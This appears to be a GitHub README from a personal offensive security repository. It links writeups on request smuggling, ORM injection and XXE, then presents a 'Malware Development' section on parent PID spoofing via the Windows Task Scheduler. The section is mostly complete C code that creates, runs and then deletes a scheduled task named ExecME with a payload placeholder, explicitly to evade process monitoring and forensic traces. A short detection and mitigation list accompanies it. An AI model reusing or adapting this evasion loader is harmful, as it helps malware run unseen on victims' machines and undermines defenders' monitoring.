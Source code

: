 # Offensive Security Writeups by Samir  

This repository contains various writeups and research documents on offensive security topics, including web vulnerabilities, injection techniques, and memory exploitation. These documents are continuously updated with new research and insights.  

## 📜 Available Writeups  

1. [How CL.TE Request Smuggling Works](./How%20CL.TE%20Request%20Smuggling%20Works.pdf) – Explanation of CL.TE request smuggling attacks and their impact.  
2. [ORM Injection](./ORM%20Injection.pdf) – A deep dive into Object-Relational Mapping (ORM) injection techniques.  
3. [Vulnerabilities](./Vulnerabilities.pdf) – General overview of common security vulnerabilities and their exploitation.  
4. [Why and How Other Users' Requests Are Intercepted](./Why%20and%20How%20Other%20Users%27%20Requests%20Are%20Intercepted.pdf) – Research on request interception and session hijacking.  
5. [XXE Injection](./XXE%20Injection.pdf) – A breakdown of XML External Entity (XXE) attacks and mitigation techniques.  


## 💀 **Malware Development – Parent PID Spoofing via Task Scheduler**

### 🔍 **Technique Explanation**
This technique abuses **Windows Task Scheduler** to create a scheduled task that runs a **malicious payload** while spoofing the **Parent Process ID (PPID)**. This allows malware to execute under a **legitimate process**, such as `explorer.exe`, making it harder to detect.

### 🚀 **How It Works:**
1. **Task Scheduler Object Creation**
   - Initializes the **COM Library**.
   - Retrieves the **Task Scheduler** object.

2. **Creating a Task**
   - A new scheduled task named `ExecME` is created.
   - The task is set to execute `explorer.exe` (which can be modified to run a payload).
   - Parameters and flags are configured for execution.

3. **Saving & Executing the Task**
   - The task is saved to disk and immediately executed.
   - This **bypasses process monitoring tools**, as the malicious process inherits the **legitimate PPID** of `explorer.exe`.

4. **Cleanup & Evasion**
   - The script **deletes the task** after execution, reducing forensic traces.

### 🛡 **Detection & Mitigation:**
✔ Monitor **Windows Event Logs** (Event ID 4698 – Scheduled Task Creation).
✔ Restrict **Task Scheduler permissions** to prevent unauthorized task creation.
✔ Use **behavior-based detection** for suspicious scheduled tasks.

---

## 📝 **Code: Parent PID Spoofing using Task Scheduler**

```c
int spoof_ppid_with_scheduler() {
    HRESULT hr = S_OK;
    ITaskScheduler *pITS;

    // Initialize COM library
    hr = CoInitialize(NULL);
    if (FAILED(hr)) {
        printf("[!] Failed to initialize COM library. Error code = 0x%x\n", hr);
        return -1;
    }

    // Get Task Scheduler object
    hr = CoCreateInstance(CLSID_CTaskScheduler, NULL, CLSCTX_INPROC_SERVER, IID_ITaskScheduler, (void **)&pITS);
    if (FAILED(hr)) {
        printf("[!] Failed to get Task Scheduler object. Error code = 0x%x\n", hr);
        CoUninitialize();
        return -1;
    }

    LPCWSTR pwszTaskName = L"ExecME";
    ITask *pITask;
    IPersistFile *pIPersistFile;

    // Create new task
    hr = pITS->NewWorkItem(pwszTaskName, CLSID_CTask, IID_ITask, (IUnknown**)&pITask);
    if (FAILED(hr)) {
        printf("[!] Failed creating new task. Error code = 0x%x\n", hr);
        pITS->Release();
        CoUninitialize();
        return -1;
    }

    // Set task parameters
    pITask->SetComment(L"Executing payload");
    pITask->SetApplicationName(L"C:\\Windows\\System32\\explorer.exe");
    pITask->SetWorkingDirectory(L"C:\\Windows\\System32");
    pITask->SetParameters(L"payload_parameters_here");
    pITask->SetFlags(TASK_FLAG_RUN_ONLY_IF_LOGGED_ON);

    // Save the task
    hr = pITask->QueryInterface(IID_IPersistFile, (void **)&pIPersistFile);
    if (FAILED(hr)) {
        printf("[!] Failed saving task. Error code = 0x%x\n", hr);
        pITask->Release();
        pITS->Release();
        CoUninitialize();
        return -1;
    }

    hr = pIPersistFile->Save(NULL, TRUE);
    pIPersistFile->Release();
    if (FAILED(hr)) {
        printf("[!] Failed saving task to disk. Error code = 0x%x\n", hr);
        pITask->Release();
        pITS->Release();
        CoUninitialize();
        return -1;
    }

    // Run the task
    hr = pITask->Run();
    pITask->Release();
    if (FAILED(hr)) {
        printf("[!] Failed to run task. Error code = 0x%x\n", hr);
        pITS->Release();
        CoUninitialize();
        return -1;
    }

    // Clean up
    pITS->Delete(pwszTaskName);
    pITS->Release();
    CoUninitialize();

    printf("[+] Task Scheduler spoofing successful.\n");
    return 0;
}
```

---

## 🏴 **Upcoming Research & Updates**
✔ New techniques in **malware evasion**.
✔ More **offensive security writeups**.
✔ Research on **custom payload execution**.
✔ Advanced **Windows & Linux attack techniques**.

Stay tuned for updates! 🚀

